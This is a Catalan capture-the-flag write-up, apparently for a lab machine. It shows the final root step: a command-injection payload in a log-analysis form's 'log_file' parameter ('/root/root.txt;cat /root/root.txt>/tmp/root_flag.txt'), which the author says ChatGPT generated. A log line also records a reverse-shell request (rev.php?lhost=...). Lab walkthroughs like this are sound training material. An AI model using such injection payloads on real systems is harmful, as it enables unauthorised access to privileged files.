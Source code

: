 ![image](https://github.com/user-attachments/assets/a7648e5c-a730-4ba1-8e7e-2cf9ab87252d)


Ara, enviem al Repeater de Burpsuite les intercepcions que hem fet, i així podrem analitzar bé el que enviem als servidors i les seves respostes:

Després d'analitzar la resposta del servidor dels log que analitzem, ens trobem que a sota de tot hi ha el següent a l'access.log:

````
<p class='error'>Suspicious traffic patterns detected in /var/log/apache2/access.log:</p><pre>10.10.16.7 - - [24/Aug/2024:10:28:37 +0000] "GET /themes/revshell-main/rev.php?lhost=10.10.16.7 HTTP/1.1" 404 3666 "-" "curl/7.81.0"</pre>
````

![image](https://github.com/user-attachments/assets/38e81a4e-8f11-4dbe-b468-8891ae001717)


A diferència de l'auth.log on hi ha el següent:

![image](https://github.com/user-attachments/assets/1eae24a7-0daa-4dbb-bad3-dcd3049c157c)


Sembla que amb el que hem vist a l'access.log podríem enviar comandes al servidor. Provarem de modificar el log.file al Repeater per enviar alguna comanda a veure si tenim èxit. Funciona:

![image](https://github.com/user-attachments/assets/081e733f-ddce-4e5f-acda-50e84b3f1674)


Per tant, ara li demano al ChatGPT que em generi un payload per obtenir la root flag, i ens fa el següent payload:
``log_file=/root/root.txt;cat%20/root/root.txt%3E/tmp/root_flag.txt&analyze_log=``

### Explicació del payload:

- **log_file=/root/root.txt**: Canvia el fitxer de registre que s'analitza per `/root/root.txt`.
- **cat%20/root/root.txt%3E/tmp/root_flag.txt**: Això llegeix el contingut del fitxer `root.txt` i el redirigeix cap a un fitxer nou, `/tmp/root_flag.txt`, que potser podràs llegir amb permisos d'usuari normal.
- **%20**: Representa un espai.
- **%3E**: Representa el caràcter `>` que és utilitzat per redirigir la sortida d'un comando a un fitxer.

I així és com obtenim la root flag:

```
           </form>
            98ad116949266fe68da77aa104ceb3d5
<p class='error'>Suspicious traffic patterns detected in /root/root.txt;cat /root/root.txt>/tmp/root_flag.txt:</p><pre>98ad116949266fe68da77aa104ceb3d5</pre>`
```

![image](https://github.com/user-attachments/assets/392306b5-8528-49d3-b24f-71f6a4aaf296)

Com que el payload genera un fitxer al directori /tmp, també podem veure la root flag allà:

```
amay@sea:/tmp$ ls -la
total 60
drwxrwxrwt 14 root root 4096 Aug 24 11:04 .
drwxr-xr-x 19 root root 4096 Feb 21  2024 ..
drwxrwxrwt  2 root root 4096 Aug 24 09:03 .font-unix
drwxrwxrwt  2 root root 4096 Aug 24 09:03 .ICE-unix
-rw-r--r--  1 root root   33 Aug 24 11:01 root_flag.txt
drwx------  2 root root 4096 Aug 24 09:03 snap-private-tmp
drwx------  3 root root 4096 Aug 24 09:03 systemd-private-bd97976328444518ad3ff60a76410e29-apache2.service-pnpGyf
drwx------  3 root root 4096 Aug 24 09:03 systemd-private-bd97976328444518ad3ff60a76410e29-ModemManager.service-sd16Ag
```